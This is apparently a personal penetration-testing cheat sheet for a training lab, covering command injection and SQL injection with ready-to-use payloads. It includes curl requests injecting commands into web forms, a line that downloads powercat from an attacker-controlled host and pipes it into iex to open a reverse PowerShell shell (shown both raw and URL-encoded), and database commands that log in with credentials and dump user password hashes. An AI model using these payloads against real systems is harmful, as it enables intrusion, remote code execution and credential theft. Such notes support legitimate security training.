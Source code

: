 ## Command Injection

> [PayloadsAllTheThings > Command Injection](https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/)

- Common separators: `& && || ;`
- Try encoded symbols: `%3B`
- Try terminating quoted context before the command: `'; whoami` `"&& whoami` `"& whoami"`

```shell
# check if a second command can be injected
curl -X POST -d 'Archive=git%3Bipconfig' http://192.168.216.189:8000/archive
# check with unix subshells $(cmd)
curl -X POST -d 'username=admin&password=admin&ffa=a$(whoami)' http://192.168.216.16/login

# check how the commands are being executed (cmd or ps)
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell   # `
curl -X POST -d 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.216.189:8000/archive

# start a http server serving powercat and get it with command injection
iwr("http://192.168.45.230/powercat.ps1")|iex;powercat -c 192.168.45.230 -p 4444 -e powershell
# URL encoded
curl -X POST -d 'Archive=git%3Biwr%28%22http%3A%2F%2F192.168.45.230%2Fpowercat.ps1%22%29%7Ciex%3Bpowercat%20-c%20192.168.45.230%20-p%204444%20-e%20powershell' http://192.168.216.189:8000/archive
```

## SQL Injection

> [Portswigger cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

> [PayloadsAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/)

### DB basic recon

```shell
# MySQL
mysql -u root -p'root' -h 192.168.50.16 -P 3306
select version();
select system_user();
SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';

# MSSQL
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
SELECT @@version;
SELECT name FROM sys.databases;
SELECT * FROM offsec.information_schema.tables;
select * from offsec.dbo.users;
```

### Identification

```shell
 [Nothing]
'
"
`
')
")
`)
'))
"))
`))
```
